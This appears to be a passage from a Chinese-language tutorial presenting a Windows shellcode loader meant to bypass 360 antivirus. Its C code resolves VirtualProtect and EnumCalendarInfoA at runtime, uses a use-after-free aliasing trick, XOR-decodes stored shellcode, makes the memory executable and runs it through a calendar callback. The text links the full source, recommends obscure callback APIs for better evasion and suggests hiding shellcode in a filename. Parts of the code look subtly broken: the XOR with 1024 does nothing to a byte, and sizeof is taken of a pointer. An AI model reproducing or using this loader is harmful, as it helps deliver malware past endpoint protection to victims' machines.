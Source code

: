     typedef FARPROC(WINAPI* GetFuncAddr_)(  
        HMODULE hmod,  
        LPCSTR  lpName  
        );  
      
    GetFuncAddr_ GetFuncAddr = (GetFuncAddr_)GetProcAddress(  
        GetModuleHandleA("Kernel32.dll"),  
        "GetProcAddress"  
    );  
      
    Exchange_ exchange_ = (Exchange_)GetFuncAddr(  
        GetModuleHandleA("kernel32.dll"),  
        "VirtualProtect"  
    );  
      
    EnumInfo EnumInfoA = (EnumInfo)GetFuncAddr(  
        GetModuleHandleA("Kernel32.dll"),  
        "EnumCalendarInfoA"  
        );  
      
    
    
    
    unsigned char* a = (unsigned char*)malloc(sizeof(bt));  
    free(a);  
    unsigned char* b = (unsigned char*)malloc(sizeof(bt));  
    for (int i = 0; i < (sizeof(bt) / sizeof(bt[0])); i++) {  
        b[i] = (unsigned char)(bt[i] ^ 1024);  
    }  
    DWORD p;  
    exchange_(a, sizeof(a), 0x40,&p);  
    EnumInfoA((CALINFO_ENUMPROCA)a, LOCALE_SYSTEM_DEFAULT, ENUM_ALL_CALENDARS, CAL_ICALINTVALUE);  
    

这个我写的加载器，算比较简单吧，就是回调函数执行shellcode，代码中的exchange_函数和EnumInfoA函数是之前typedef定义好的，  
我们申请了a和b两个内存，释放了a，因为UAF（上面解释得有），虽说a释放了，但a的值却和b相同，所以我们把之前存到bt数组里的shellcode异或解密并且强制类型转换成unsigned
char类型写入b内存里

随后用exchange*(virtualprotect)这个函数把a内存属性改为可执行，exchange*(a, sizeof(a), 0x40,&p);
然后利用回调函数执行a(因为a和b的值是相同的)

![]()  
这是EnumCalendarInfoA函数的参数，只有第一个参数是重要的，回调函数（其实就是函数指针），其余参数跟着文档填即可（这种函数很多，师傅们多找找一些知名度低的，免杀效果会好不少的喔！）

# 完整代码

完整代码我发在了github平台上，地址https://github.com/wz-wsl/360-bypass

# 结尾

 **一个小思路** ：  
windows有个api叫PathFindFileName，作用是获取当前程序的名字，这里我们可以把名字换成shellcode，利用这个api获取shellcode，不过需要注意的是windows下文件名最长为260个字符，所以我们可以把一半shellcode当成文件名，剩下的shellcode就利用其它方法呀
